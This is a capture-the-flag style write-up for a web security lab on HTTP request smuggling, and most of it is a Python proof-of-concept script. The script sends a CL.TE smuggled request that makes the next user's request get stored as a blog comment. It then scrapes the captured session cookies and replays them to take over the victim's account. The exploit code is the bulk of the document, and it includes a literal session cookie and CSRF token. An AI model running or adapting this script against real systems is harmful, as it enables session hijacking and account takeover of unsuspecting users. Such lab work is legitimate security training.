

# Lab: Exploiting HTTP request smuggling to capture other users' requests

## Description
```
This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding.

To solve the lab, smuggle a request to the back-end server that causes the next user's request to be stored in the application. Then retrieve the next user's request and use the victim user's cookies to access their account.
```

## PoC
```py
import requests
from bs4 import BeautifulSoup
import socket
import ssl
import time

session = requests.session()

burp0_url = "https://❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚.web-security-academy.net:443/post?postId=3"
burp0_headers = {"Cache-Control": "max-age=0", "Sec-Ch-Ua": "\"Chromium\";v=\"131\", \"Not_A Brand\";v=\"24\"", "Sec-Ch-Ua-Mobile": "?0", "Sec-Ch-Ua-Platform": "\"Windows\"", "Accept-Language": "ko-KR,ko;q=0.9", "Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7", "Sec-Fetch-Site": "none", "Sec-Fetch-Mode": "navigate", "Sec-Fetch-User": "?1", "Sec-Fetch-Dest": "document", "Accept-Encoding": "gzip, deflate, br", "Priority": "u=0, i"}
response = requests.get(burp0_url, headers=burp0_headers)
cookies = response.cookies
cookies = str(response.cookies)
session_value=cookies.split("session=")[1].split(" ")[0]
soup = BeautifulSoup(response.text, 'html.parser')
title = soup.title.string
print(f"title : {title}")
csrf_input = soup.find('input', {'name': 'csrf'})
csrf_token = csrf_input['value'] if csrf_input else None
print(f"CSRF Token: {csrf_token}")
print(f"session_value: {session_value}")

attack_payload ="""
POST / HTTP/1.1
Host: ❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 275
Transfer-Encoding: chunked

0

POST /post/comment HTTP/1.1
Cookie: session=OTnR4Ts6XII7CbDPauHPZJEj3toiFXuc
Content-Type: application/x-www-form-urlencoded
Content-Length: 950

csrf=RisXemFVSkSzKoCt7EF52fhM27kVkA0S&postId=3&name=foobar&email=foo%40bar.com&website=http%3A%2F%2Fbar.com&comment=foo
"""
print("## attack payload ##")
print(attack_payload)

def send_request(host, port, request):
    context = ssl.create_default_context()
    context.check_hostname = False
    context.verify_mode = ssl.CERT_NONE

    with socket.create_connection((host, port)) as sock:
        with context.wrap_socket(sock, server_hostname=host) as secure_sock:
            secure_sock.sendall(request.encode())
            response = secure_sock.recv(4096)
            return response

host = "❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚.web-security-academy.net"
port = 443

request = (
    "POST / HTTP/1.1\r\n"
    f"Host: {host}\r\n"
    "Content-Type: application/x-www-form-urlencoded\r\n"
    "Content-Length: 275\r\n"
    "Transfer-Encoding: chunked\r\n"
    "\r\n"
    "0\r\n"
    "\r\n"
    "POST /post/comment HTTP/1.1\r\n"
    f"Cookie: session={session_value}\r\n"
    "Content-Type: application/x-www-form-urlencoded\r\n"
    "Content-Length: 950\r\n"
    "\r\n"
    f"csrf={csrf_token}&postId=3&name=foobar&email=foo%40bar.com&website=http%3A%2F%2Fbar.com&comment=foo"
)

checkpoint = 0

while True:
    if checkpoint == 1:
        break
    response = send_request(host, port, request)
    status_line = response.decode('utf-8', errors='ignore').split('\r\n')[0]
    status_code = status_line.split()[1]
    print(f"response status code: {status_code}")

    time.sleep(3)

    while True:
        burp0_url = "https://❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚.web-security-academy.net:443/post?postId=3"
        burp0_headers = {"Cache-Control": "max-age=0", "Sec-Ch-Ua": "\"Chromium\";v=\"131\", \"Not_A Brand\";v=\"24\"", "Sec-Ch-Ua-Mobile": "?0", "Sec-Ch-Ua-Platform": "\"Windows\"", "Accept-Language": "ko-KR,ko;q=0.9", "Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7", "Sec-Fetch-Site": "none", "Sec-Fetch-Mode": "navigate", "Sec-Fetch-User": "?1", "Sec-Fetch-Dest": "document", "Accept-Encoding": "gzip, deflate, br", "Priority": "u=0, i"}
        response = requests.get(burp0_url, headers=burp0_headers)

        import re

        pattern = r"session=([A-Za-z0-9]+)"
        session_value = re.findall(pattern, response.text)

        if response.status_code == 200:
            break
    print(session_value)
    for data in session_value:
        session = requests.session()
        burp0_url = "https://❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚.web-security-academy.net:443/"
        burp0_cookies = {"session": data}
        burp0_headers = {"Sec-Ch-Ua": "\"Chromium\";v=\"131\", \"Not_A Brand\";v=\"24\"", "Sec-Ch-Ua-Mobile": "?0", "Sec-Ch-Ua-Platform": "\"Windows\"", "Accept-Language": "ko-KR,ko;q=0.9", "Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7", "Sec-Fetch-Site": "none", "Sec-Fetch-Mode": "navigate", "Sec-Fetch-User": "?1", "Sec-Fetch-Dest": "document", "Accept-Encoding": "gzip, deflate, br", "Priority": "u=0, i"}
        response = session.get(burp0_url, headers=burp0_headers, cookies=burp0_cookies)
        print(f"response status code: {response.status_code}")

        burp0_url = "https://❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚.web-security-academy.net:443/"
        response = requests.get(burp0_url, headers=burp0_headers)
        soup = BeautifulSoup(response.text, 'html.parser')
        status_p = soup.select_one('div.widgetcontainer-lab-status > p')
        status_text = status_p.text if status_p else "Status not found"
        if status_text == "Solved":
            print(f"Administrator Session: {data}")
            print(f"Lab: {status_text}")
            checkpoint = checkpoint + 1
            break
```

## Result
